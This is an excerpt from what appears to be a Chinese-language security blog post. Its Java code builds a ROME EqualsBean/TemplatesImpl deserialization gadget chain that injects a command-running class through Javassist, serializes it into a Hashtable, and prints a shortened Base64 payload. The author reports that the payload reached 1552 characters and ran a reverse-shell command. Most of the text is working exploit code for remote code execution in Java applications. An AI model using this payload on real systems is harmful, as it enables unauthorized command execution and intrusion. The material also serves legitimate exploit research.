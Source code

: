 ```java

        //TemplateImpl 动态加载字节码
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("a");
        payload.setSuperclass(classPool.get(AbstractTranslet));
//        payload.makeClassInitializer().setBody("Runtime.getRuntime().exec(new String[]{\"/bin/bash\", \"-c\", \""+cmd+"\"});");
        payload.makeClassInitializer().setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        byte[] code=payload.toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj,"_name","a");
        setFieldValue(obj,"_class",null);
        setFieldValue(obj,"_bytecodes",new byte[][]{code});

        EqualsBean bean = new EqualsBean(String.class,"a");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",bean);
        map1.put("zZ",obj);
        map2.put("zZ",bean);
        map2.put("yy",obj);
        Hashtable table = new Hashtable();
        table.put(map1,"1");
        table.put(map2,"2");

        setFieldValue(bean,"_beanClass",Templates.class);
        setFieldValue(bean,"_obj",obj);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())).length());

        //反序列化
//        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        ois.readObject();
//        ois.close();
    }
}
```
发现长度变为1552，短了许多
![](https://img-blog.csdnimg.cn/901190b847554e8c9dee9dc4cdf735e7.png)
并且成功执行反弹shell命令
![](https://img-blog.csdnimg.cn/ca2bc9c22da9468d8e0e40367643c297.png)
